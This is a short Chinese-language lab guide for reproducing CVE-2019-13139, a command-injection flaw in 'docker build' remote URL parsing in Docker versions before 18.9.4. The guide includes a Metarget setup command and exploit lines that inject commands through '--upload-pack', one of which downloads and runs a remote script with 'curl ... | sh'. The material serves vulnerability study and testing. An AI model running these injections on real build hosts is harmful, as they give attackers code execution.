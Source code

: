 # Docker构建漏洞导致代码执行（CVE-2019-13139）

## 场景介绍

`docker build`命令构建本地镜像时，支持使用远程url参数作为构建环境，并且这个远程构建环境可以是一个git仓库。

在D ocker 18.9.4之前版本中，`docker build`过程中对`remoteUrl`解析存在缺陷，导致了`remoteUrl`中的部分字符串会被作为命令执行。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2019-13139
```

## 漏洞复现

执行相关利用命令:

```
root@cloudplay:~/metarget$ docker build "git@g.com/a/b#--upload-pack=touch 13139.txt;:" #执行结果报错但不影响
root@cloudplay:~/metarget$ ls | grep 13139
13139.txt
root@cloudplay:~/metarget$ docker build "git@github.com/a/b#--upload-pack=curl -s example.com/poc.sh|sh;#:"    #下载远程shell文件并执行
```

## 参考文献

1. https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
